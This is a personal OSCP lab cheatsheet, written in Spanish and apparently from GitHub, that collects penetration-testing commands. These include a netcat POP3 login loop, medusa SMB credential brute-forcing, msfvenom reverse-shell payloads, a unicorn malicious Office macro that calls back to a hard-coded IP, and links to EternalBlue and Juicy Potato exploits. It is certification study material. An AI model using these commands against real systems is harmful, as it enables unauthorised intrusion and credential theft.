 # Another-OSCP-Cheatsheet
Os introduzco aquí la cheatsheet personal que he ido usando durante mi recorrido por los labs del OSCP:

## POP3 enum
Este script de bash nos permite enumerar un servicio POP3 para tratar de encontrar algún correo en alguno de los usuarios que hemos encontrado en la etapa de reconocimiento:

    for user in <user1> <user2> <user3>.. <userX>; do
    ( echo USER ${user}; sleep 2s; echo PASS abcd; sleep 2s; echo LIST; sleep 2s; echo quit) | nc -nvC <ip> <port>;  done
## SMB enum
**SHARES**
Analiza que shares de SMB están disponibles con un usuario invitado:

    nmap <ip> --script=smb-enum-shares
**SMB USER/CHECK**
Comprueba esa gigante wordlist de usuarios que has ido reuniendo durante la etapa de reconocimiento, fácil y sencillo:

    medusa -M smbnt -h <ip> -U userfile -P passfile -m GROUP:DOMAIN -v 4	
## MSFVenom Payloads
**Windows Payload**  
Intercambia el x64 por x86 si estás en una máquina de 32 bits:

    msfvenom -p windows/x64/shell_reverse_tcp LHOST=<YOUR IP> LPORT=<PORT> -f <format; example: jsp, php..> > file.<format>
    
**Linux Payload**  
Intercambia el x64 por x86 si estás en una máquina de 32 bits:

    msfvenom -p linux/x64/shell_reverse_tcp LHOST=<YOUR IP> LPORT=<PORT> -f <format; example: jsp, php..> > file.<format>

## Kernel Cross-Compiling

Especialmente útil si estás enfrentando una caja old-school que aún tiene un SO de 32 bits (créeme, hay muchiiiisimas cajas así en los labs del OSCP xd)  
Utiliza la opción --static sabiamente https://stackoverflow.com/questions/8692128/static-option-for-gcc

    gcc ¿--static? -m32 -Wl, --hash-style=both <nombre.c> -o <output>			
## MACRO PAYLOAD
**UNICORN** es una herramienta FANTÁSTICA que debes usar en tu trayecto por los labs del OSCP, si debes crear cualquier macro para una suite office, este software te va a facilitar la vida enormemente https://github.com/trustedsec/unicorn

    python unicorn.py windows/x64/shell_reverse_tcp 11.1.1.151234 macro
    
## Common Exploits
**MS17-010** Si te enfrentas a EternalBlue :) https://ivanitlearning.wordpress.com/2019/02/24/exploiting-ms17-010-without-metasploit-win-xp-sp3/  
**Juicy Potato** Si cuentas con un usuario y al hacer "whoami /priv" cuenta con privilegios SeImpersonate o SeAssignPrimaryToken... https://github.com/ohpe/juicy-potato

## Exploit search

    searchsploit <service name>
    
